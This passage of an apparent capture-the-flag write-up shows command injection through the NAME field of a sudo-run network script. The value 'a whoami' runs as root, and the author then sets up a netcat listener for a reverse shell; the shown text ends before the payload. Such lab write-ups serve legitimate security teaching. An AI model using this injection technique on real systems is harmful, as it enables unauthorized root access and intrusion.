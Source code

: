 {% endhighlight %}

Looks like something went wrong? According to `changename.sh`, it was reading values for different fields like `NAME`, `PROXY_METHOD` etc and writing them into `/etc/sysconfig/network-scripts/ifcfg-guly` in the given format `FIELD=VALUE`. 

`/etc/sysconfig/network-scripts/ifcfg-guly`:
```
DEVICE=guly0
ONBOOT=no
NM_CONTROLLED=no
NAME=test
PROXY_METHOD=test
BROWSER_ONLY=test
BOOTPROTO=test
```

I wasn't sure how we can inject commands using this script but as I was fuzzing with different values, I saw a new error.

{% highlight bash %}
[guly@networked ~]$ sudo /usr/local/sbin/changename.sh
sudo /usr/local/sbin/changename.sh
interface NAME:
a a
a a
...
/etc/sysconfig/network-scripts/ifcfg-guly: line 4: a: command not found
...
ERROR     : [/etc/sysconfig/network-scripts/ifup-eth] Device guly0 does not seem to be present, delaying initialization.
{% endhighlight %}

Our input is being executed ? Lets try to rerun it but insert a command instead.
{% highlight bash %}
[guly@networked ~]$ sudo /usr/local/sbin/changename.sh
sudo /usr/local/sbin/changename.sh
interface NAME:
a whoami
...
root
...
ERROR     : [/etc/sysconfig/network-scripts/ifup-eth] Device guly0 does not seem to be present, delaying initialization.
{% endhighlight %}

Nice! Now we know where to inject our commands, we proceed to establish our reverse shell connection. However, since our input cannot contain periods (.), we can create a script that contains our reverse shell commands and execute it instead.

On my machine, we start another listener.

{% highlight bash %}
$ nc -lvnp 1339
listening on [any] 1339 ...
{% endhighlight %}
